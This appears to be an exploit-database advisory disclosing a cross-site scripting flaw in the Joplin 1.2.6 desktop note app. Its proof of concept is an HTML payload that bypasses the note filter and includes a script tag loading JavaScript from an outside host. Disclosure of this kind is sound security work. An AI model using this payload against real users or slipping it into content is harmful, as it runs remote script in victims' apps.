 Exploit Title: Joplin 1.2.6 Cross Site Scripting

# Exploit Title: Joplin 1.2.6 Cross Site Scripting
# Date: 2020-09-21
# Exploit Author: Philip Holbrook (@fhlipZero)
# Vendor Homepage: https://joplinapp.org/
# Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6
# Version: 1.2.6
# Tested on: Windows / Mac
# CVE : PENDING
# References:
# PENDING next release

# 1. Technical Details
# An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

# 2. PoC
# Paste the following payload into a note:

<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>



![Screen Shot 2020-10-27 at 4.42.34 PM.png](../_resources/60b6772ab455487b92268ad45a6dd677.png)



![Screen Shot 2020-10-27 at 4.42.51 PM.png](../_resources/7f76fb066b9d4e3bad4c4b59538140e4.png)

